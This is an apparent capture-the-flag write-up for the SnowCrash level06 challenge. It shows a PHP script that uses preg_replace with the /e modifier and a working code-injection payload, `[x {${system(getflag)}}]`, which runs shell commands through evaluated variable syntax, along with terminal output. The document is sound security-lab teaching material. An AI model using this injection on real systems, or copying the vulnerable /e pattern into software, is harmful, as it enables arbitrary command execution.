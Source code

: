 # Level06

We have a php code:  

```php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

This code get content of file at `argv[1]`. 
So we can try the program:

```bash
level06@SnowCrash:~$ echo "Hello world ! " > /tmp/test
level06@SnowCrash:~$ ./level06 /tmp/test
Hello world !
```

With a lot of research, we have find a security vulnerability in `preg_replace`. In fact, using `/e` is now deprecated.  
Because of the part after `/e` is evaluated as a php code, it is interpreted.  
The 2nd parameters in preg_replace is `y(\"\\2\")`. This corresponds to the second part of the expression `/(\[x (.*)\])`. With research we have find that the 2nd part is `(.*)` and the first is `[x ...]`.  
Our content must be something like: `[x INTERPRETED]` because of must start by `[x` and end by `]`.  

First we have try this content: It's not working:  

```bash
level06@SnowCrash:~$ echo "[x system("ls")]" > /tmp/test
level06@SnowCrash:~$ ./level06 /tmp/test
system(ls)
```

In fact, this variable is called [dynamic variable](https://www.php.net/manual/fr/language.variables.variable.php) because of the content can be determinated by php code.

Our file content must be:  
`[x {${system(getflag)}} ]`

# Why ?  

`[x ${system(getflag)}]`
 `${system(getflag)}` is considered as a variable but it's not a valid variable in PHP.


To be interpreted and evaluated as a dynamic variable we must use `[x {${system(getflag)}}]`. The system command will be executed and the result will be the arg of `y` function.  

```bash
./level06 /tmp/ret
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```
